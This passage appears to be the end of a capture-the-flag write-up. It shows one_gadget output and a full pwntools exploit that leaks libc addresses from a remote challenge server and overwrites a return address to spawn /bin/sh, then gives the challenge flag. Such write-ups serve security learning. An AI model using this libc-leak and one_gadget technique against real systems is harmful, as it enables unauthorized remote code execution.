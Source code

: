     0xebcf5 execve("/bin/sh", r10, rdx)
    constraints:
      address rbp-0x78 is writable
      [r10] == NULL || r10 == NULL
      [rdx] == NULL || rdx == NULL
    
    0xebcf8 execve("/bin/sh", rsi, rdx)
    constraints:
      address rbp-0x78 is writable
      [rsi] == NULL || rsi == NULL
      [rdx] == NULL || rdx == NULL

I chose the last one, and the full exploit is:
```python
from pwn import *
#context.log_level = 'debug'
elf = context.binary = ELF('9end2outs')
io = remote("2outs.sstf.site", 1337)
#io = elf.process()
libc = ELF("libc.so.6")
#Leak system
io.sendlineafter(b"> ", b'system')
io.recvuntil(b"is at ")
system = int(io.recvline().strip()[:-1], 16)
libc.address = system - libc.sym['system']
log.info(f"System: {hex(system)}")
#Leak puts
io.sendlineafter(b"> ", b'puts')
io.recvuntil(b"is at ")
puts = int(io.recvline().strip()[:-1], 16)
log.info(f"Puts: {hex(puts)}")
#Leak LIBC base address
log.info(f"LIBC: {hex(libc.address)}")
#XPL
one_gadget = 0xebcf8
io.sendlineafter(b"> ", b'A' * 8 + p64(libc.address + one_gadget))
io.interactive()
```

Flag = `SCTF{c0ngr47s_y0u_R_Th3_MVP_0f_th15_94m3}`

Thanks for reading!
